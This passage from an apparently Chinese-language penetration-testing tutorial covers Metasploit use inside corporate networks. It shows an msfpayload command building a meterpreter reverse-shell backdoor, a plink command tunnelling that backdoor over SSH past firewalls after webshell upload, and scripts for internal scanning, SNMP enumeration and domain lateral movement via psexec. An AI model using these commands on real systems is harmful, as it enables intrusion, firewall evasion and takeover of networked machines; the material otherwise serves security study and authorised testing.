

发现可以获得结果。

**ssh/plink.exe**

还有一种利用 SSH 的方式就在 windows 下使用 plink 反弹,这样数据包经过 SSH 加密后，便可以躲过防火墙的检测。同理在 linux 也是一样的。 首先生成反弹到本地的 reverse 后门。

```
msfpayload windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5566 >  ~/Desktop/backdoor_reverse_localhost.exe 
```



然后开启本地监听，再将 plink 和 backdoor.exe 通过 webshell 上传。然后执行

```
echo y | plink.exe -L 5566:192.168.6.131:6666 192.168.6.131 -l root -pw toor 
```

之后运行 backdoor.exe，meterpreter 就通过 ssh tunnel 建立起来了。



## 0x03 内网扫描

* * *

Metasploit 对于常见服务(`smb/ssh/mysql/mssql/oracle/ftp/tfp/ …etc`)扫描可以做到版本信息(`banner`)、登录验证等。

简单过程可以参考之前的笔记《msf 内网渗透小记》

具体扫描的脚本路径在`/usr/share/metasploit-framework/modules/auxiliary/scanner`下，可以根据需求自行发现。

常见的扫描端口: `7,21,22,23,25,43,50,53,67,68,79,80,109,110,111,123,135,137,138,139,143,161,264,265,389,443,445,500,631,901,995,1241,1352,1433,1434,1521,1720,1723,3306,3389,3780,4662,5800,5801,5802,5803,5900,5901,5902,5903,6000,6666,8000,8080,8443,10000,10043,27374,27665`

当然也可以使用 rc 脚本(`basic_discovery.rc`)。

另外内网里还有一处信息的搜集就是**snmp**,如果有交换机存在 snmp 弱口令(团体字符串),那么便可以通过 snmp 收集路由表信息和 VLAN 划分信息等。

一般网络都会在 vlan 划分时备注信息，比如 Vlan100 是 x 部门,Vlan200 是 y 部门等等。 不同品牌、型号的交换机在获取这一信息时所需要的 OID 可能不同(大部分不一样)，而 snmp 又是在 udp 的 161 端口，在交换机没有开放 ssh、telnet、web 时\或者开放以上服务，端口又未能做转发时，则可以在知道具体的 OID 值后通过改写 snmp_enumusers.rb 脚本实现。



## 0x04 域渗透相关

* * *

推荐几个 AD 下渗透的扫描脚本(见参考<3>,下同)

**psexec_Loggedin_users**



这个脚本可以找到当前段每个 IP 所登录的用户。

**local_admin_search_enum**



这个可以找到当前登录管理账户的 IP 和用户名。

**psexec_scanner**



批量执行 psexec 获得 shell,脚本里有个 psexec 的函数，绝对是改写的好范本。见参考<4>

更多 metasploit 关于 windows 域渗透的脚本见参考<5>

## 0x05 后记

* * *

关于内网及域下渗透并不一定需要 metasploit，更多的是与其他工具的配合。而且这一过程思路(见参考<6>)和对 AD 的理解明显比会用工具重要。metasploit 只是提供了一个自动化发现利用的 tunnel，如果简单理解 ruby 及 metasploit 代码框架，无论是学习还是渗透测试，都将会是一个有力的辅助。另外上文中的示例只是为读者所遇情况而构建脚本时的参考。

## 0x06 参考

* * *

<1> http://opexxx.tumblr.com/post/35763770674/btb-security-how-to-make-custom-exes-for-deployment

<2> https://github.com/dirtyfilthy/metassh

<3> http://www.pentestgeek.com/2012/11/03/find-local-admin-with-metasploit/

<4> http://www.darkoperator.com/blog/2011/12/16/psexec-scanner-auxiliary-module.html

<5> https://github.com/darkoperator/Meterpreter-Scripts/tree/master/post/windows/gather

<6> http://www.freebuf.com/articles/web/5901.html (及 8 楼 Gall 的回复)

版权声明：未经授权禁止转载 [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [InsightScan:Python 多线程 Ping/端口扫描 + HTTP 服务/APP 探测，可生成 Hydra 用的 IP 列表](http://drops.wooyun.org/tools/427)
*   [Powershell and Windows RAW SOCKET](http://drops.wooyun.org/tips/4707)
*   [通过 dns 进行文件下载](http://drops.wooyun.org/tools/1344)
*   [各种环境下的渗透测试](http://drops.wooyun.org/tips/411)
*   [Burp Suite 使用介绍（三）](http://drops.wooyun.org/tips/2247)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)